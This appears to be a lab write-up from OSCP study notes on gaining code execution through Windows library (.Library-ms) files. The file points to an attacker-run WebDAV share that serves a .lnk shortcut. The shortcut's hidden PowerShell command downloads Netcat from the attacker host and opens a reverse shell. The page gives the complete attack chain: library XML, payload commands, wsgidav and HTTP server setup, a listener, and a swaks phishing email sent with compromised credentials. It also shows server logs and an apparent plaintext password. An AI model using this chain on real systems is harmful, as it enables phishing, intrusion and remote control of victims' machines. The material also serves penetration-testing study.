







---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Code Execution via Windows Library Files

## Windows Libraries

[Libraries](https://learn.microsoft.com/en-us/windows/client-management/client-tools/windows-libraries) are are virtual containers for user content. They connect users with data stored in remote locations like web services or shares. A library can contain files and folders stored on the local computer or in a remote storage location. In Windows Explorer, users interact with libraries in ways similar to how they would interact with other folders. Libraries are built upon the legacy known folders (such as My Documents, My Pictures, and My Music) that users are familiar with, and these known folders are automatically included in the default libraries and set as the default save location.

Libraries have a `.Library-ms` file extension and can be executed by double-clicking them in Windows Explorer.

### Components

Library files consist of [three major parts](https://learn.microsoft.com/en-us/windows/win32/shell/library-schema-entry#overview-of-the-library-description-schema) and are written in XML to specify the parameters for accessing remote locations. The parts are:

1. **General library information:** Information about the library, such as name, owner, version, icon, that Windows Explorer can use when it displays the library to a user.
2. **Library properties:** One or more properties that describe the library. These custom properties are specific to the library.
3. **Library locations:** One or more search connectors that identify storage locations to include in the library. Each of these locations can also have a unique set of properties.

A sample file can be found [here](https://learn.microsoft.com/en-us/windows/win32/shell/library-schema-entry#example-of-a-library-description-file).

### Namespace

Versions of the Library Description file format (`.library-ms`) are tracked by changing the [namespace](https://learn.microsoft.com/en-us/windows/win32/shell/library-schema-entry#namespace-versioning) utilizing the [`libraryDescription`](https://learn.microsoft.com/en-us/windows/win32/shell/schema-librarydescription) tag. This is the namespace for the version of the library file format starting from Windows 7:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">

</libraryDescription>
```

A move extensive example is available [page linked above](https://learn.microsoft.com/en-us/windows/win32/shell/library-schema-entry#example-of-a-library-description-file).

## Example

This example will leverage a two-stage client-side attack. In the first stage, the attacker will:

1. Use Windows library files to gain a foothold on the target system and set up the second stage
   * The original OSCP example uses a [WebDAV](https://en.wikipedia.org/wiki/WebDAV) server that is spun up on-demand via [WsgiDAV](https://wsgidav.readthedocs.io/en/latest/index.html)
   * I followed the steps [here](https://www.digitalocean.com/community/tutorials/how-to-configure-webdav-access-with-apache-on-ubuntu-18-04) to set up WebDAV on my Apache server (site `mal`) to have a `/webdav` folder
     * The **authentication will need to be disabled when following the steps below** as the library assumes no authentication for accessing WebDAV (disable in `mal.conf` file)
   * I have seen instances where the Apache server is unsuitable because the victim's machine strips portions of the URL. If this is happening see this section
2. Use the foothold to provide an executable file that will start a reverse shell when double-clicked

## Creating the Library

#### Library Description

First start with the namespace description as seen [above](code-execution-via-windows-library-files.md#namespace):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">

</libraryDescription>
```

Inside a [`name`](https://learn.microsoft.com/en-us/windows/win32/shell/schema-library-name) tag will be added. Per the linked site it can be set to `@shell32.dll,-34575` or `@windows.storage.dll,-34575`. A [`version`](https://learn.microsoft.com/en-us/windows/win32/shell/schema-library-version) tag can also be set:

```xml
<name>@windows.storage.dll,-34582</name>
<version>1</version>
```

Next an [`isLibraryPinned`](https://learn.microsoft.com/en-us/windows/win32/shell/schema-library-islibrarypinned) will be set. This element specifies whether this library is pinned to the navigation pane in Windows Explorer. For targets, this may be another small detail to make the whole process feel more genuine and therefore, it will set it to `true`:

```xml
<isLibraryPinned>true</isLibraryPinned>
```

Additionally an [`iconReference`](https://learn.microsoft.com/en-us/windows/win32/shell/schema-library-iconreference) tag will be added. This element specifies a custom icon for this library. One must must specify the value in the same format as the name element. The attacker can use `imagesres.dll` to choose between all Windows icons. They can use index `-1002` for the `Documents` folder icon from the user home directories or `-1003` for the `Pictures` folder icon:

```xml
<iconReference>imageres.dll,-1003</iconReference>
```

At this point a [`templateInfo`](https://learn.microsoft.com/en-us/windows/win32/shell/schema-library-templateinfo) tag is added. It is a container for the [`folderType`](https://learn.microsoft.com/en-us/windows/win32/shell/schema-library-foldertype) element which specifies a folder type for displaying the results from a query over this library. It does so by specifying a [GUID](https://learn.microsoft.com/en-us/windows/win32/shell/schema-library-foldertype#remarks) inside the `folderType` tag. This example will use the GUID of `{B3690E58-E961-423B-B687-386EBFD83239}` to match the `iconReference` tag which was set to `-1003` for `Pictures`:

```xml
<templateInfo>
    <folderType>{B3690E58-E961-423B-B687-386EBFD83239}</folderType>
</templateInfo>
```

#### Library Locations

The next tag marks the beginning of the library locations section. In this section, the storage location where the library file points is specified.

Begin by creating a [`searchConnectorDescriptionList`](https://learn.microsoft.com/en-us/windows/win32/shell/schema-library-searchconnectordescriptionlist)  element. This element contains a list of [search connectors](https://learn.microsoft.com/en-us/windows/win32/search/search-sconn-desc-schema-entry) that map to locations included in this library. Search connectors connect users with data stored in web services or remote storage locations. Each connector is described in a [`searchConnectorDescription`](https://learn.microsoft.com/en-us/windows/win32/shell/schema-library-searchconnectordescription) element. One can specify one or more `searchConnectorDescription` element. This example will only include one.

Inside the description of the search connector the attacker will specify information and parameters for the WebDAV share. Using the solution discussed above the share is located at `http://192.168.45.159:8888/webdav`.&#x20;

The first tag in this descriptor will be the [`isDefaultSaveLocation`](code-execution-via-windows-library-files.md#windows-libraries) element with the value set to `true`. This element specifies whether the location described in the search connector should be used as the default save location.

Next add the add the `isSupported` tag, which is not documented in the Microsoft Documentation webpage, and is used for compatibility. It can be set to `false`.

The most important tag is the [`url`](https://learn.microsoft.com/en-us/windows/win32/search/search-schema-sconn-url) element. It is used to point to the WebDAV share. It is contained within a [`simpleLocation`](https://learn.microsoft.com/en-us/windows/win32/search/search-schema-sconn-simplelocation) element, which is easier to use than the more complex [`locationProvider`](https://learn.microsoft.com/en-us/windows/win32/search/search-schema-sconn-locationprovider) element.

All of these tags make up the library locations section of the file:

```xml
<searchConnectorDescriptionList>
    <searchConnectorDescription>
        <isDefaultSaveLocation>true</isDefaultSaveLocation>
        <isSupported>false</isSupported>
        <simpleLocation>
            <url>http://192.168.45.159:8888/webdav</url>
        </simpleLocation>
    </searchConnectorDescription>
</searchConnectorDescriptionList>
```

This will eventually all be placed inside the `libraryDescription` element.

#### Complete Library File

The [locations](code-execution-via-windows-library-files.md#library-locations) section can be combined with the other information inside the `libraryDescription` element to create the final library file:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>@windows.storage.dll,-34582</name>
    <version>1</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
    <templateInfo>
        <folderType>{B3690E58-E961-423B-B687-386EBFD83239}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <isSupported>false</isSupported>
            <simpleLocation>
                <url>http://192.168.45.159:8888/webdav</url>
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```


It can be saved on a Windows machine and executed by double-clicking.

### Executing the Library

#### Example Text File

The concept will be demonstrated with the `config.Library-ms` file that can be copied to a Windows machine, causing it appears in the Windows Explorer:

<figure><figcaption><p>Library file on Windows machine</p></figcaption></figure>

Note the icon matches the `Pictures` folder.

For now the `/webdav` share only has a file called `test.txt` in it:

<figure><figcaption><p>WebDAV share contents</p></figcaption></figure>

Once the `config.Library-ms` file is double clicked it opens the "library" and `test.txt` is brought onto the victim machine:

<figure><figcaption><p>Test text file brought on to client machine</p></figcaption></figure>

If the `.Library-ms file` is examine after execution a few lines are now different (unchanged lines removed from display):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  ...
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      ...
      <simpleLocation>
        <url>\\192.168.45.159@8888\DavWWWRoot\webdav</url>
        <serialized>MBAAAEAFCAAAAAAAADAAAAAAAYkgCAQDQAAAAAoTxxyOKpdAA6UcssjSaHAgOFHL7ok2BAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAgFAAAAHAAAACAAAAAAAAAAAAAAAcAAAAEFAAAQNAAAACAAAAQBAAAAAAAAAAAgLAwFXxkjMuEjN44CN14SM1kDQ4gDO4wFRBZ1VXdlUP9EVAcXZiRWY2BwXBAAAMAAAgSBAfgVDawC8h4LUDhIszdG/W+OPHDAAAEMA7+6k7MLAEAAAAAAAtAAAAEzUQN1cDVuC+OUrPVI5pxthzgpbRAAAAsAAAAAALAAAA8//AAAAAAAAVBAAAEzUQNFMxXytvfkGQUa8CAGjeuOr5AAAAoAAAAAAfAAAAQBAAAQMAkDAyAgLAEDA2AAOA4CA0AQNA4CAxAQNAkDAABAOAgDA4AAOAAAAAAAAA0CAAAQMTB1U6QaveP7NDOUknTEmanSlrGBAAAwAAAAAAMBAAAAAAAAAAAAAAAAAAAAAAYCADDAIcxVM5IjLxYDOuQTNuETN5AEO4gDOcRUY2d1VXJ1bvRHAUBQMAAAAAAgMYNrkQAwdlJGZhZHAA4DAJAABA8uvyg1sSKDWzKpLAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAolYCwdAUGAiBAZAEGA2BAAAYBAAAAFDAAABAAAgyFXxkjMuEjN44CN14SM1kDQ4gDO4wFRhZ3VXdlUv9GdcdXZiRWY2BAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcBAXAEDA5AgMA4CAxAgNAgDAuAANAUDAuAQMAUDA5AAQAgDA4AAOAgDAcBARAEGA2BwVAcFAXBgUA8GAvBAdAwFA3BQZAIGAkBQYAYHAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</serialized>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

The `url` element has been changed and there is now a [`serialized`](https://learn.microsoft.com/en-us/windows/win32/search/search-schema-sconn-simplelocation#element-information) element. This element contains the base64-encoded ShellLink pointing to the location defined in the `url` element. Windows 7 creates the ShellLink from the value of the `url` element and properly updates this field on the first load of this library, so it should be left empty by the author.

The `url` element was updated to `\\192.168.45.159@8888\DavWWWRoot\webdav` because Windows tries to optimize the WebDAV connection information for the [Windows WebDAV client](https://www.webdavsystem.com/server/access/windows).

The `config.Library-ms` file still works when it is double-clicked, but due to the encoded information in the `serialized` tag, it may not be working on other machines or after a restart.

### Creating A Shortcut

The overall goal is to start a reverse shell by putting a `.lnk` shortcut file on the WebDAV share for the victim to execute.

A shortcut can be created to run a PowerShell command on execution. The command used will be designed to download Netcat and then use it to launch a reverse shell. Keep in mind that shortcuts have a character limit (and `powershell.exe` will be expanded into a full path by Windows). Therefore the command cannot be unlimited length. For that reason the simple command used will be:


```
powershell.exe -w hidden -c "iwr 'http://192.168.45.159:8080/netcat_x64.exe' -OutFile $env:userprofile\nc.exe;&(Join-Path $env:userprofile nc.exe) 192.168.45.159 443 -e powershell"
```


It launches PowerShell in a hidden window and then runs the command to download Netcat and launch a shell. The shortcut can be created directly on the Desktop of a user by right clicking and selecting `New > Shortcut`:

<figure><figcaption><p>Create a shortcut</p></figcaption></figure>

From here the Shortcut Creation Assistant is opened and the command can be pasted directly into the text box:

<figure><figcaption></figcaption></figure>

The Shortcut can be named anything but for the purposes of this example and pretense it will be called `automatic_configuration`: and saved creating a Shortcut:

<figure><figcaption><p>PowerShell Shortcut</p></figcaption></figure>

When double-clicked this Shortcut launches a reverse shell. Now that the payload has been constructed all that remains is to get the victim to open the config.Library-ms file and then double-click the executable. Even with this method the a warning will pop up when the `.lnk` file is double-clicked:

<figure><figcaption><p>Shortcut warning</p></figcaption></figure>

The victim will still need to click `Open` in order to cause the Shortcut to execute. Arranging this will require a pretext of some sort.

## Full CLI Example

### Apache Problems

I have seen instances where everything works perfectly in testing but when attempting to run the actual attack an issue occurs. As far as I can tell this occurs because the victim machine strips part of the URL from the library. So consider the following library file:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>@windows.storage.dll,-34582</name>
    <version>1</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
    <templateInfo>
        <folderType>{B3690E58-E961-423B-B687-386EBFD83239}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <isSupported>false</isSupported>
            <simpleLocation>
                <url>http://192.168.45.159/webdav</url>
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```


This is supposed to interact with a WebDAV server hosted at `http://192.168.45.159/webdav`. In the WebDAV directory was a `.lnk` file containing the command:


```sh
powershell.exe -w hidden -c "iwr 'http://192.168.45.243/windows/exe/networking/netcat_x64.exe' -OutFile $env:userprofile\nc.exe;&(Join-Path $env:userprofile nc.exe) 192.168.45.243 443 -e powershell"
```


This worked well in testing on the victim at 192.168.225.250 as seen in the Apache access logs:

```
192.168.225.250 - - [14/Apr/2024:15:01:47 -0600] "PROPFIND /webdav HTTP/1.1" 301 583 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.250 - - [14/Apr/2024:15:01:47 -0600] "PROPFIND /webdav/ HTTP/1.1" 207 1053 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.250 - - [14/Apr/2024:15:01:47 -0600] "PROPFIND /webdav HTTP/1.1" 301 583 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.250 - - [14/Apr/2024:15:01:47 -0600] "PROPFIND /webdav/ HTTP/1.1" 207 1053 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.250 - - [14/Apr/2024:15:01:47 -0600] "PROPFIND / HTTP/1.1" 405 561 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.250 - - [14/Apr/2024:15:01:47 -0600] "PROPFIND /webdav HTTP/1.1" 301 583 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.250 - - [14/Apr/2024:15:01:47 -0600] "PROPFIND /webdav/ HTTP/1.1" 207 2574 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.250 - - [14/Apr/2024:15:01:47 -0600] "GET /webdav/automatic_configuration.lnk HTTP/1.1" 200 2383 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.250 - - [14/Apr/2024:15:01:47 -0600] "PROPFIND /webdav/Thumbs.db HTTP/1.1" 404 493 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.250 - - [14/Apr/2024:15:01:51 -0600] "PROPFIND /webdav HTTP/1.1" 301 583 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.250 - - [14/Apr/2024:15:01:51 -0600] "PROPFIND /webdav/ HTTP/1.1" 207 2574 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.250 - - [14/Apr/2024:15:01:51 -0600] "PROPFIND /webdav HTTP/1.1" 301 583 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.250 - - [14/Apr/2024:15:01:51 -0600] "PROPFIND /webdav/ HTTP/1.1" 207 2574 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.250 - - [14/Apr/2024:15:01:51 -0600] "PROPFIND /webdav HTTP/1.1" 301 583 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.250 - - [14/Apr/2024:15:01:51 -0600] "PROPFIND /webdav/ HTTP/1.1" 207 2574 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.250 - - [14/Apr/2024:15:01:57 -0600] "GET /windows/exe/networking/netcat_x64.exe HTTP/1.1" 200 45578 "-" "Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.22000.832"
```

The victim's WebDAV client attempted to connect to the proper `/webdav` directory and then it grabbed the `.lnk` file, downloaded the Netcat `exe`, and then connected back to the reverse shell (last step not shown).

However, when the same library and `.lnk` file pair were used with the actual victim machine (`192.168.225.242`) things went wrong:

```
192.168.225.242 - - [14/Apr/2024:15:03:16 -0600] "OPTIONS / HTTP/1.1" 200 218 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.242 - - [14/Apr/2024:15:03:16 -0600] "PROPFIND / HTTP/1.1" 405 561 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.242 - - [14/Apr/2024:15:03:16 -0600] "PROPFIND / HTTP/1.1" 405 561 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.242 - - [14/Apr/2024:15:03:16 -0600] "PROPFIND / HTTP/1.1" 405 561 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.242 - - [14/Apr/2024:15:07:17 -0600] "OPTIONS / HTTP/1.1" 200 218 "-" "DavClnt"
192.168.225.242 - - [14/Apr/2024:15:07:20 -0600] "OPTIONS / HTTP/1.1" 200 218 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.242 - - [14/Apr/2024:15:07:20 -0600] "PROPFIND / HTTP/1.1" 405 561 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.242 - - [14/Apr/2024:15:07:20 -0600] "PROPFIND / HTTP/1.1" 405 561 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
192.168.225.242 - - [14/Apr/2024:15:07:20 -0600] "PROPFIND / HTTP/1.1" 405 561 "-" "Microsoft-WebDAV-MiniRedir/10.0.22000"
```

As shown by these log files it was attempting to just access the root directory of the website (`/`) which was not the WebDAV directory and was thus failing. This was causing the `.lnk` file to never be transferred and the attack to fail. If this is seen it is easiest to just turn of Apache and manually stand up the WebDAV and HTTP servers using `wsgidav` and python respectively.

### Setting Up WebDAV

It is recommended to use the current directory and create two sub-directories `./http` and `./webdav`. Inside `./webdav` a modified `.lnk` file containing the following command is placed:


```sh
powershell.exe -w hidden -c "iwr 'http://192.168.45.243:8000/netcat_x64.exe' -OutFile $env:userprofile\nc.exe;&(Join-Path $env:userprofile nc.exe) 192.168.45.243 443 -e powershell"
```


Then the attacker must move to the `./webdav` directory and use the following command to launch a WebDAV server:

```bash
wsgidav --host=0.0.0.0 --port=80 --root=. --auth=anonymous
```

* `--host` specifies what interfaces to use. `0.0.0.0` is all interfaces
* `--root` indicates which directory to launch in
  * This command runs in the `/webdav` directory so this is set to current directory with .
* `--auth=anonymous` sets the server up to allow anonymous login (no credentials) to help create a seamless experience for the victim

```shell-session
kali@kali:~/webdav$ wsgidav --host=0.0.0.0 --port=80 --root=. --auth=anonymous
Running without configuration file.
15:23:30.052 - WARNING : App wsgidav.mw.cors.Cors(None).is_disabled() returned True: skipping.
15:23:30.054 - INFO    : WsgiDAV/4.3.0 Python/3.11.8 Linux-6.6.9-amd64-x86_64-with-glibc2.37
15:23:30.054 - INFO    : Lock manager:      LockManager(LockStorageDict)
15:23:30.054 - INFO    : Property manager:  None
15:23:30.054 - INFO    : Domain controller: SimpleDomainController()
15:23:30.054 - INFO    : Registered DAV providers by route:
15:23:30.054 - INFO    :   - '/:dir_browser': FilesystemProvider for path '/usr/lib/python3/dist-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
15:23:30.054 - INFO    :   - '/': FilesystemProvider for path '/home/qwerzxcv/OSCP/OSCP_Exercises/OfflineExercises/AssemblingThePieces/beyond/mailsrv1/exploit/webdav' (Read-Write) (anonymous)
15:23:30.054 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
15:23:30.054 - WARNING : Share '/' will allow anonymous write access.
15:23:30.055 - WARNING : Share '/:dir_browser' will allow anonymous write access.
15:23:30.186 - INFO    : Running WsgiDAV/4.3.0 Cheroot/10.0.0 Python/3.11.8
15:23:30.186 - INFO    : Serving on http://0.0.0.0:80 ...
```

With this running the attacker can then modify the library file to look like this:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>@windows.storage.dll,-34582</name>
    <version>1</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
    <templateInfo>
        <folderType>{B3690E58-E961-423B-B687-386EBFD83239}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <isSupported>false</isSupported>
            <simpleLocation>
                <url>http://192.168.45.243</url>
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```


This will automatically connect to the WebDAV server on port 80.

### Setting Up HTTP

The attacker should then open a new command prompt and navigate to the /http directory. In this directory the attacker should place a `.exe` for Netcat which will be called `netcat_x64.exe`:

```shell-session
kali@kali:~/http$ ls                     
netcat_x64.exe
```

With that file in place the following command should be used to launch the HTTP server:

```bash
python3 -m http.server 8000
```

Once run the server is up and running:

```shell-session
kali@kali:~/http$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### Starting the Listener

The attack is now fully staged and the attacker should open one more command prompt and start the listener:

```bash
rlwrap nc -lvnp 443
```

### Sending the Email

A final command prompt can be opened and used to send the email with the [`swaks`](http://www.jetmore.org/john/code/swaks/) command:&#x20;


```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.225.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```


* This command must be run from a directory containing the email body in a file called `body.txt` and a copy of the `config.Library-ms` file
* This command requires valid credentials to send the email fortunately in this example the attacker was able to compromise the valid user `john`'s credentials and use them in the attack

When run the attacker will see confirmation the email was sent:

```shell-session
kali@kali:~$ sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.225.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
[sudo] password for kali:  
Username: john
Password: dqsTwTpZPn#nL
=== Trying 192.168.225.242:25...
=== Connected to 192.168.225.242.
<-  220 MAILSRV1 ESMTP
 -> EHLO kl-laptop.domainn.home
<-  250-MAILSRV1
...
 -> 43 lines sent
<-  250 Queued (1.078 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

When this is all done the attacker will see the activity in the WebDAV and HTTP servers:

```
15:23:30.186 - INFO    : Serving on http://0.0.0.0:80 ...
15:26:17.237 - INFO    : Got OPTIONS '/' request
15:26:17.237 - INFO    : Got OPTIONS '/' request
15:26:17.237 - INFO    : 192.168.225.242 - (anonymous) - [2024-04-14 21:26:17] "OPTIONS /" elap=0.001sec -> 200 OK
15:26:17.374 - INFO    : Got OPTIONS '/' request
15:26:17.375 - INFO    : 192.168.225.242 - (anonymous) - [2024-04-14 21:26:17] "PROPFIND /" length=0, depth=0, elap=0.001sec -> 207 Multi-Status
15:26:17.489 - INFO    : Got OPTIONS '/' request
15:26:17.489 - INFO    : 192.168.225.242 - (anonymous) - [2024-04-14 21:26:17] "PROPFIND /" length=0, depth=0, elap=0.001sec -> 207 Multi-Status
15:26:17.610 - INFO    : Got OPTIONS '/' request
15:26:17.611 - INFO    : 192.168.225.242 - (anonymous) - [2024-04-14 21:26:17] "PROPFIND /" length=0, depth=0, elap=0.001sec -> 207 Multi-Status
15:26:17.722 - INFO    : Got OPTIONS '/' request
15:26:17.727 - INFO    : 192.168.225.242 - (anonymous) - [2024-04-14 21:26:17] "PROPFIND /" length=0, depth=1, elap=0.005sec -> 207 Multi-Status
15:26:17.840 - INFO    : Got OPTIONS '/' request
